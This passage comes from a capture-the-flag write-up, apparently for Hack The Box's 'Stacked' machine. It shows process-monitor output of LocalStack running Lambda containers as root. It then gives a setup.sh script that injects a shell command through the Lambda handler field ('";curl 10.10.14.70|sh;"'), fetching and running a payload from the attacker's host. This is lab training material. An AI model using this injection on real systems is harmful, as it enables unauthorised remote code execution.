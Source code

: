```
2021/09/19 11:40:24 CMD: UID=0    PID=5874   | docker create -i -e DOCKER_LAMBDA_USE_STDIN=1 -e LOCALSTACK_HOSTNAME=172.17.0.2 -e EDGE_PORT=4566 -e _HANDLER=lambda.apiHandler -e AWS_LAMBDA_FUNCTION_TIMEOUT=3 -e AWS_LAMBDA_FUNCTION_NAME=processes -e AWS_LAMBDA_FUNCTION_VERSION=$LATEST -e AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:processes -e AWS_LAMBDA_COGNITO_IDENTITY={} -e NODE_TLS_REJECT_UNAUTHORIZED=0 --rm lambci/lambda:nodejs8.10 lambda.apiHandler
2021/09/19 11:40:24 CMD: UID=0    PID=5873   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs8.10" "lambda.apiHandler")";docker cp "/tmp/localstack/zipfile.28a09a0a/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID";
2021/09/19 11:40:24 CMD: UID=0    PID=5881   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs8.10" "lambda.apiHandler")";docker cp "/tmp/localstack/zipfile.28a09a0a/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID";
```

We adjust the `setup.sh` with a new function name to avoid conflict with the earlier created app. We also change the `handler` value to our command injection payload. First we break out of the quotes and add a `;` to each end to make sure the payload runs. As actual payload we use the same `index.html` as above.

`setup.sh`
```
#!/bin/sh

API_NAME="rce"
REGION=eu-west-1
STAGE=test


aws lambda create-function \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --function-name ${API_NAME} \
    --runtime nodejs8.10 \
    --handler '";curl 10.10.14.70|sh;"'\
    --memory-size 128 \
    --zip-file fileb://api-handler.zip \
    --role arn:aws:iam::123456:role/irrelevant


LAMBDA_ARN=$(aws lambda list-functions --endpoint=http://s3-testing.stacked.htb --query "Functions[?FunctionName==\\`${API_NAME}\\`].FunctionArn" --output text --region ${REGION})

aws apigateway create-rest-api \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --name ${API_NAME}


API_ID=$(aws apigateway get-rest-apis --endpoint=http://s3-testing.stacked.htb --query "items[?name==\\`${API_NAME}\\`].id" --output text --region ${REGION})
PARENT_RESOURCE_ID=$(aws apigateway get-resources --endpoint=http://s3-testing.stacked.htb --rest-api-id ${API_ID} --query 'items[?path==`/`].id' --output text --region ${REGION})

aws apigateway create-resource \
    --endpoint=http://s3-testing.stacked.htb \
```